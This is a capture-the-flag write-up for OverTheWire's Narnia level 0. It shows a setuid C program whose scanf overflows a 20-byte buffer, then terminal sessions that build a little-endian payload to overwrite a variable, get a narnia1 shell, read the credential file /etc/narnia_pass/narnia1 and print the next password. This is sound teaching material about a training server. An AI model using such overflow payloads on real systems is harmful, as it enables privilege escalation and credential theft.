

# Narnia Level 0 Source Code vs Executable Code

## Previous Flag
<b>Narnia0</b>

## Goal
Use previous password to log in SSH with user <b>narnia0</b> and port <b>2226</b> accessed on narnia.labs.overthewire.org.

There is no information for this level, intentionally.




## What I learned
```
Narnia teaches basic exploitation thru reverse engineering
Exploit is a method or piece of code that takes advantage of a vulnerability or bug in a program, system, or protocol to make it do something unintended
Pwn (pronounced  "pawn" or "pone") is hacker slang meaning to completely own or control a system or program

Source code is original language that a program is written in
Source code is compiled into a set of instructions that the computer processor can execute

Program wants you to somehow change 0x41414141 to value 0xdeadbeef

Stack grows from high memory to low memory 🧠
Input displayed backwards is because most x86 architectures store data in little-endian format when pushed onto stack 🧠

# ASCII to hex
narnia0@narnia:/narnia$ echo -n "aA" | xxd -p ⌨️
6141
narnia0@narnia:/narnia$ echo -n "aA" | hexdump -v -e '/1 "%02x"' ⌨️
6141

# hex to ASCII
narnia0@narnia:/narnia$ printf "\x61\x41\n" ⌨️
aA
narnia0@narnia:/narnia$ echo -e "\x61\x41" ⌨️
aA
narnia0@narnia:/narnia$ echo 6141 | xxd -r -p ⌨️       # -r reverses from hex dump to binary
aA                                                      # -p is plain hex input (no addresses)

If want to print 4th byte (0xde), you’d need to treat val as a pointer to bytes:
unsigned char *p = (unsigned char *)&val;
printf("%x\n", p[3]);                                   // print "de"
printf("%x\n", p[2]);                                   // print "ad"
printf("%x\n", p[1]);                                   // print "be"
printf("%x\n", p[0]);                                   // print "ef"
```

## Solution
```
PS C:\Users\trung.DESKTOP-G7C81CH\Downloads\01noobHacker> ssh narnia0@narnia.labs.overthewire.org -p 2226 ⌨️
                                                _
                         _ __   __ _ _ __ _ __ (_) __ _
                        | '_ \ / _` | '__| '_ \| |/ _` |
                        | | | | (_| | |  | | | | | (_| |
                        |_| |_|\__,_|_|  |_| |_|_|\__,_|


                      This is an OverTheWire game server.
            More information on http://www.overthewire.org/wargames

narnia0@narnia.labs.overthewire.org's password: ⌨️
narnia0@narnia:~$ cd /narnia/ ⌨️
narnia0@narnia:/narnia$ ls -la ⌨️
total 160
drwxr-xr-x  2 root    root     4096 Jul 28 19:06 .        
drwxr-xr-x 31 root    root     4096 Jul 30 18:01 ..       
-r-sr-x---  1 narnia1 narnia0 15044 Jul 28 19:05 narnia0   👀
-r--r-----  1 narnia0 narnia0  1229 Jul 28 19:05 narnia0.c 👀
-r-sr-x---  1 narnia2 narnia1 14884 Jul 28 19:05 narnia1  
-r--r-----  1 narnia1 narnia1  1021 Jul 28 19:05 narnia1.c
-r-sr-x---  1 narnia3 narnia2 11280 Jul 28 19:05 narnia2  
-r--r-----  1 narnia2 narnia2  1022 Jul 28 19:05 narnia2.c
-r-sr-x---  1 narnia4 narnia3 11520 Jul 28 19:05 narnia3  
-r--r-----  1 narnia3 narnia3  1699 Jul 28 19:05 narnia3.c
-r-sr-x---  1 narnia5 narnia4 11312 Jul 28 19:05 narnia4  
-r--r-----  1 narnia4 narnia4  1080 Jul 28 19:05 narnia4.c
-r-sr-x---  1 narnia6 narnia5 11512 Jul 28 19:05 narnia5  
-r--r-----  1 narnia5 narnia5  1262 Jul 28 19:05 narnia5.c
-r-sr-x---  1 narnia7 narnia6 11568 Jul 28 19:06 narnia6  
-r--r-----  1 narnia6 narnia6  1602 Jul 28 19:06 narnia6.c
-r-sr-x---  1 narnia8 narnia7 12036 Jul 28 19:06 narnia7
-r--r-----  1 narnia7 narnia7  1964 Jul 28 19:06 narnia7.c
-r-sr-x---  1 narnia9 narnia8 11320 Jul 28 19:06 narnia8
-r--r-----  1 narnia8 narnia8  1269 Jul 28 19:06 narnia8.c
narnia0@narnia:/narnia$ file narnia0 ⌨️
narnia0: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=f8e961a6e499ace3b315fa40acc1049342d59b5c, for GNU/Linux 3.2.0, not stripped
narnia0@narnia:/narnia$ cat narnia0.c ⌨️
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];               // Reserve 20 1 byte

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);         // 👀 Accept 24 byte character string: Vulnerability

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
narnia0@narnia:/narnia$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAA";cat;) | ./narnia0 ⌨️
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAAAAA
val: 0x41414141 👀
WAY OFF!!!!
narnia0@narnia:/narnia$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAa";cat;) | ./narnia0 ⌨️
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAAAAa
val: 0x61414141 👀
WAY OFF!!!!
narnia0@narnia:/narnia$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAA\xde";cat;) | ./narnia0 ⌨️
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAAAA 
val: 0xde414141 👀
WAY OFF!!!!
narnia0@narnia:/narnia$ (echo -e "AAAAAAAAAAAAAAAAAAAAAA\xad\xde";cat;) | ./narnia0 ⌨️
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAAA  
val: 0xdead4141 👀
WAY OFF!!!!
narnia0@narnia:/narnia$ (echo -e "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde";cat;) | ./narnia0 ⌨️
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ   
val: 0xdeadbeef 👀
whoami ⌨️
narnia1
id ⌨️
uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
cat /etc/narnia_pass/narnia1 ⌨️
WDcYUTG5ul 🔐
```

## Flag
<b>WDcYUTG5ul</b>

## Continue
[Continue](./Narnia0001.md)